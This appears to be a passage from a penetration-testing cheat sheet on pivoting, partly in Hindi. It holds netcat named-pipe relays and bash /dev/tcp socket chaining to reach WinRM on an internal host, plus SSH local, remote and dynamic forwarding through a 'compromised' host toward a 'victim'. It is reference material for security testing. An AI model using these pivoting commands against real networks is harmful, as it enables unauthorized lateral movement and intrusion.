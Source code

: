 ## **Bash**

**Host -> Jump -> InternalA -> InternalB**
```bash
# On the jump server connect the port 3333 to the 5985
mknod backpipe p;
nc -lvnp 5985 0<backpipe | nc -lvnp 3333 1>backpipe

# On InternalA accessible from Jump and can access InternalB
## Expose port 3333 and connect it to the winrm port of InternalB
exec 3<>/dev/tcp/internalB/5985
exec 4<>/dev/tcp/Jump/3333
cat <&3 >&4 &
cat <&4 >&3 &

# From the host, you can now access InternalB from the Jump server
evil-winrm -u username -i Jump
```
## **SSH**

SSH ग्राफिकल कनेक्शन (X)
```bash
ssh -Y -C <user>@<ip> #-Y is less secure but faster than -X
```
### Local Port2Port

SSH सर्वर में नया पोर्ट खोलें --> अन्य पोर्ट
```bash
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 #Local port 1521 accessible in port 10521 from everywhere
```

```bash
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere
```
### Port2Port

स्थानीय पोर्ट --> समझौता किया गया होस्ट (SSH) --> तीसरा\_बॉक्स:पोर्ट
```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```
### Port2hostnet (proxychains)

स्थानीय पोर्ट --> समझौता किया गया होस्ट (SSH) --> कहीं भी
```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```
### Reverse Port Forwarding
